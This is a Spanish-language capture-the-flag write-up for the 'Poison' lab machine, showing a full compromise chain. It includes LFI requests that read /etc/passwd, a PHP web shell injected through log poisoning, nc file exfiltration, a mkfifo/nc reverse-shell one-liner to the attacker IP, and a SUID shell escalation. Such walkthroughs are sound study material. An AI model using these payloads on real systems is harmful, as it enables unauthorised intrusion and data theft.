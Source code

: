 # 10.10.10.84 - Poison

![Poison](https://user-images.githubusercontent.com/96772264/208063894-e3532ed5-125a-4732-85f6-e146f6e6ad53.png)

----------------------
# Part 1: Enumeración

Puertos abiertos 22(ssh), 80(http):
```console
└─$ whatweb http://10.10.10.84
Apache[2.4.29], [PHP/5.6.32]
```
Como tenemos php, podeos hacer tres tipos de fuzzing:
- Por directorios: ```wfuzz --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.10.84/FUZZ/" -t 200```  
- Por subdominios: ```wfuzz -c --hh=289 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.10.10.10.84.htb" -u http://10.10.10.84/ -t 100```  
- Por extensiones php: ```wfuzz --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.10.84/FUZZ.php" -t 200```  

Solo conseguimos rutas con las extensiones: index.php, browse.php, info.php y el famoso phpinfo.php  

-------------
# Part 2: LFI

En la web nos dicen que nos pueden mostrar archivos php locales como "ini.php, info.php, listfiles.php, phpinfo.php". Es decir nos están mostrando claramente parte
de la máquina, es decir un LocalFileInclusion. Se pasa el archivo por /GET a browse.php con el parámetro file.  
![poison2](https://user-images.githubusercontent.com/96772264/208064379-bcd4cbfa-28e2-442d-9878-4a42da436f15.PNG)

Si nos muestran un archivo php sin que se interprete lo estará pasando por el wrapper ```php://filter/convert.base64-encode/resource=shell.php``` y luego haciendole un
```base64 -d```

- **Info.php**: Dice que el sistema es un FreeBSD Poison 11.1-RELEASE.  
- **listfiles.php**: array con los archivos anres mencionados mas "pwdbackup.txt"  
- **browse.php**: da error por ser el propio archivo.  
- **test**: el error a drede nos da la ruta "usr/local/www/apache24/data/"  
- **ini.php**: archivo que muestra un array con programas...  

![poison1](https://user-images.githubusercontent.com/96772264/208064390-ca756d10-9807-4166-9cc8-f2c009e67a8a.PNG)

### PWDbackup

Al abrir "pwdbackup.txt" nos dicen que es una contraseña codificada en base64 muchas veces.  

```console
# ELiminar la primera liena dejando solo el texto en base64, luego:
└─$ cat pwdbackup.txt | tr -d "\n" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d| base64 -d | base64 -d | base64 -d | base64 -d
Charix!2#4%6&8(0
```

### Ini.php  
```console
└─$ cat ini.php | grep -oE "    \[.*?\]" | sort -u  
```
- [sendmail_path] => Array : /usr/sbin/sendmail -t -i # un programa?  
- [extension_dir] => Array : /usr/local/lib/php/20131226  
  
```└─$ curl -s -X GET 'http://10.10.10.84/browse.php?file=../../../../../usr/sbin/sendmail' -O sendamail```  

Conseguimos dicho binario pero al hacerle ```chmod +x``` sigue sin funcionar.  


## EtcPasswd
```
└─$ curl -s -X GET 'http://10.10.10.84/browse.php?file=/etc/passwd' | grep "sh$"  
# Usuarios -> charix y root  
```
Probamos otras rutas típicas como **/proc/net/tcp** pero no existen  

-------------
# Part 3: Accediendo al sistema

```console
└─$ sshpass -p 'Charix!2#4%6&8(0' ssh charix@10.10.10.84 
charix@Poison:~ %
```
El sistema es muy pequeño, apenas hay programas, asi que en la enumeración encontramos pocas cosas como:  

- secret.zip  
- /var/mail/charix # no hay nada y en el resto de /var/mail no puedo acceder.  
- /home/charix/.mail_aliases  
- /home/charix/.mailrc  
- /home/charix/.login_conf  

Nada interesante. 
```console
charix@Poison:~ % nc 10.10.14.16 443 < secret.zip
└─$ sudo nc -nlvp 443 > secret.zip
└─$ 7z x secret.zip # password Charix!2#4%6&8(0 
└─$ cat secret  #  ��[|Ֆz! ??
```
En este tipo de sistemas netstat funciona de manera diferente (cuando lo corrimos con mi script ```netstat -nat```) nos mostraban las opciones.

-------------
# Part 4: VNCviewer

```console
charix@Poison:~ % netstat -na -p tcp
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```
Si buscamos estos puertos en google relativos a freebsd nos dice que funciona el "VNC client":  

```console
charix@Poison:/tmp % ps aux | grep "vnc"
root   529   0.0  0.9  23620  8872 v0- I    18:54    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

El asunto esque corre por la máquina local, así que hay que traerse esos puertos.  

```console
└─$ sshpass -p 'Charix!2#4%6&8(0' ssh charix@10.10.10.84 -D 666
└─$  sudo nano /etc/proxychains4.conf
socks4  127.0.0.1 666
```
Una vez hecho el tunel, se accedería por él a dicho puerto (que ahora parece del localhost). Como contraseña le adjuntamos el archivo binario raro de antes "secret"
```
└─$ proxychains vncviewer 127.0.0.1:5901 -passwd secret
```
![poison3](https://user-images.githubusercontent.com/96772264/208064498-5cd2a774-3e39-4198-84da-706af9a2fa4e.PNG)

Lo que nos abre una ventana de acceso al sistema como root. Como no podemos copiar cosas ni nada, pero somos root, lo ideal es hacer SUID a la sh 
```chmod  u+s /bin/sh``` y en el sistema al que entramos por ssh  ```sh -p``` y ya tenemos una consola como root.


---------------
# Extra: Log Poisoning

Tenemos un LFI, que nos permite ver archivos, pero se puede convertir en un RCE por una técnica llamada Log 
poisoning. 
 
- /var/log/auth.log -> ssh   
- /var/log/mail -> smtp    
- /var/log/apache2/acces.log -> apache    
- /var/log/httpd-access.log -> apache tambien  

```console
└─$ curl -s -X GET -H $'User-Agent: <?php system($_GET[\'cmd\']); ?>' 'http://10.10.10.84/browse.php?file=/var/log/httpd-access.log'
└─$ curl -s -X GET 'http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=whoami'
10.10.14.16 - - [15/Dec/2022:19:51:05 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1067 "-" "www"
```
Si ponemos en el navegador:   ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.16 443 >/tmp/f```
